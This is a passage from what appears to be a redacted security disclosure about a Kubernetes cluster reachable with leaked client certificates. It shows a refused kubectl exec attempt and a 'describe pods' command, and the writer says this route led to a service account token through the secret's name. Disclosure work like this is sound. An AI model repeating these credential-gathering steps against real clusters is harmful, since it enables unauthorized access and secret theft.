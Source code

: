 I didn't tried to delete running pods, obviously, I'm not sure if I would be able to delete them with user `████████`. However, it's not possible to execute commands in this new pod or any other pod:
```bash
$ kubectl --client-certificate client.crt --client-key client.pem --certificate-authority ca.crt --server https://█████████ exec -it shell-demo -- /bin/bash

Error from server (Forbidden): pods "shell-demo" is forbidden: User "███" cannot create pods/exec in the namespace "default": Unknown user "███"
```

The `get secrets` command doesn't work, but it's possible to describe a given pod and the get the secret using its name. That's how I leaked the kubernetes.io service account token using the instance `████` from the namespace `████`:

```bash
$ kubectl --client-certificate client.crt --client-key client.pem --certificate-authority ca.crt --server https://███ describe pods/█████ -n █████████

Name:           ████████
Namespace:      ██████
Node:           ██████████
Start Time:     Fri, 23 Mar 2018 13:53:13 +0000
Labels:         █████
                ████
                █████
Annotations:    <none>
Status:         Running
IP:             █████████
Controlled By:  █████
Containers:
  default-http-backend:
    Container ID:   docker://███
    Image:          ██████
    Image ID:       docker-pullable://█████
    Port:           ████/TCP
    Host Port:      0/TCP
    State:          Running
      Started:      Sun, 22 Apr 2018 03:23:09 +0000
    Last State:     Terminated
      Reason:       Error
      Exit Code:    2
      Started:      Fri, 20 Apr 2018 23:39:21 +0000
      Finished:     Sun, 22 Apr 2018 03:23:07 +0000
    Ready:          True
    Restart Count:  180
    Limits:
      cpu:     10m
      memory:  20Mi
    Requests:
      cpu:        10m
      memory:     20Mi
    Liveness:     http-get http://:███/healthz delay=30s timeout=5s period=10s #success=1 #failure=3
    Environment:  <none>
    Mounts:
      ██████
Conditions:
  Type           Status
  Initialized    True
  Ready          True
  PodScheduled   True
Volumes:
 ██████████:
    Type:        Secret (a volume populated by a Secret)
    SecretName: ███████
```